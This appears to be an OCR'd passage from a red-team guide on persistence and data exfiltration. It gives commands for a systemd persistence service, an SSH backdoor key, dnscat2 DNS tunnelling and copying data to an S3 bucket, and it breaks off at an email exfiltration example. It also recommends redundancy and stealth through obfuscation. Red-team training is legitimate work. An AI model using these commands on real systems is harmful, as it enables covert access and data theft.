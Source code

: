     bash

    echo "[Unit]
    Description=Red Team Persistence

    [Service]
    ExecStart=/usr/bin/python3 /path/to/script.py

    [Install]
    WantedBy=multi-user.target" > /etc/systemd/system/persistence.service
    systemctl enable persistence.service

SSH Backdoors:

    Description: Adding a public key to the authorized_keys file of a user to allow SSH access.
    Example:

    bash

        echo "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAr..." >> ~/.ssh/authorized_keys

Recommendations:

    Redundancy: Implement multiple persistence methods to ensure access even if one method is removed.
    Stealth: Use obfuscated scripts and avoid creating suspicious files or services with obvious names.

4. Data Exfiltration Techniques

Efficiently and covertly extracting data is a primary objective in red team engagements. The choice of exfiltration method depends on the network environment and the nature of the data.
Methods for Exfiltration:
A. DNS Tunneling

    Description: Encapsulating data within DNS queries to bypass firewalls and security appliances that overlook DNS traffic.
    Tools: Dnscat2, Iodine
    Example:

    bash

    dnscat2 --domain example.com --secret mysecret

B. Using Cloud Services

    Description: Uploading data to cloud storage services like Google Drive, Dropbox, or AWS S3, which are often whitelisted in corporate environments.
    Tools: Python scripts using APIs, CLI tools for cloud services.
    Example (AWS S3):

    bash

    aws s3 cp /path/to/data s3://bucket-name --region us-west-1

C. Email Exfiltration

    Description: Sending data via email to external addresses.
    Tools: Python's smtplib, built-in mail clients.
    Example:

    python

